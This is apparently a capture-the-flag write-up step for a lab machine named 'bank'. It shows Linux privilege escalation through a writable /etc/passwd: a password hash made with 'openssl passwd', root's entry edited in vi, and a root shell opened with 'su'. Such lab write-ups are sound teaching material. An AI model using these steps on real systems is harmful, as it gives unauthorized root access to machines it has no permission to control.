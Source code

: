 # 15 - PrivEsc


# /etc/passwd is writable 
![](vx_images/5370824811737.png)

Some versions of linux still allow password hash storage in /etc/passwd. With the write access we can abuse it to overwrite the root password.

# /etc/passwd
```bash
www-data@bank:/$ openssl  passwd ennozdd
6B.ME8UOeSIRk
www-data@bank:/$ vi /etc/passwd
```

`openssl passwd` generates password hashes.

![](vx_images/315823433277.png)


# Root
```bash
www-data@bank:/$ su - root
Password: ennozdd
root@bank:~# 

```

